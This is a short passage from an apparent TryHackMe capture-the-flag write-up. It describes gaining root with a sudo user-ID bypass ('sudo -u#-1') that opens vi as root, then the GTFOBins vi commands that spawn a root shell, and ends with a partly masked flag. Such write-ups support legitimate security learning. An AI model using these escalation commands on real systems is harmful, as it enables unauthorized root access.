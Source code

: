 <br>

## Root

Running this command `sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt` opens the `vi` editor as root.

Then heading over to GTFObins gives this command to spawn the shell as root..

```
:set shell=/bin/sh
:shell
```

root flag

```
THM{8d6f163a87a1c80de2**********************}
```